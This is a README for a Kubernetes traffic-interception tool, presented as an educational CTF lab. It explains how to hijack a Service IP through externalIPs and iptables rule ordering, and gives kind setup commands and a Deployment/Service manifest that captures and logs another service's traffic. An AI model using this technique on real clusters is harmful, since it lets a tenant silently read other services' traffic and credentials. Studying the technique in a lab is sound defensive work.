

# k8s-mproxy

# Kubernetes Traffic Analyzer via externalIPs

The analyzer intercepts traffic sent to a target Kubernetes `Service` IP, logs HTTP/TCP request and response data, and forwards the original TCP stream to the real backend Pod.

This project demonstrates a Kubernetes `Service.spec.externalIPs` traffic interception technique in a scenario where an attacker/operator can create only their own `Deployment` and `Service` objects.

> This is an educational CTF project. Do not use this technique in environments where you do not have explicit authorization.

## Technical description

When we specify an IP address in `externalIPs`, kube-proxy can add this information to `iptables` rules on Kubernetes cluster nodes. This allows to hijack the IP address of a services and pods, inside the cluster.

However, in `iptables`, rule order is very important. If our `iptables` rule is placed after the original rule, the interception will not happen. To solve this problem, we can create several intercept Services. This creates several `iptables` rules and increases the chance that our rule will be placed before the original one.

## Practical lab setup

Build the image:

```bash
docker build -t k8s-mproxy .
```

Deploy kind and load the image into it:

```bash
kind create cluster
kind load docker-image k8s-mproxy
```

Deploy the target nginx, which will imitate the Service we want to intercept:

```bash
kubectl apply -f manifests/target-nginx.yml
```

Get the Service IP of nginx, whose traffic we are going to intercept:

```bash
kubectl get svc | grep target-nginx | awk '{print $3}'
```

Get the Pod IP of nginx, whose traffic we are going to intercept:

```bash
kubectl get pods -o wide | grep target-nginx | awk '{print $6}'
```

Then update the analyzer manifest:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: traffic-analyzer
spec:
  selector:
    matchLabels:
      app: traffic-analyzer
  template:
    metadata:
      labels:
        app: traffic-analyzer
    spec:
      containers:
      - image: k8s-mproxy
        name: analyzer
        imagePullPolicy: Never
        env:
          - name: UPSTREAM_ADDR
            value: "<ip>:<port>" # target pod ip:port for redirecting traffic
        ports:
          - name: proxy
            containerPort: 80
          - name: admin
            containerPort: 9090
---
apiVersion: v1
kind: Service
metadata:
  name: traffic-analyzer
spec:
  type: ClusterIP
  selector:
    app: traffic-analyzer
  ports:
  - name: https
    protocol: TCP
    port: 80
    targetPort: 8080
  externalIPs:
    - <target-svc-ip> # svc ip for intercept traffic

...
```

Do not forget that we have several Services so that our `iptables` rule has a higher chance of being placed before the original one.

Now, after any traffic comes to the target nginx Service IP, it will go to our analyzer. The analyzer will intercept it, log it, and forward it further to the target nginx Pod IP, so the logged Service does not break and continues to function.

This way, we can intercept traffic of any Service by hijacking its IP address. All captured traffic can be viewed in the analyzer admin interface on port `9090`.

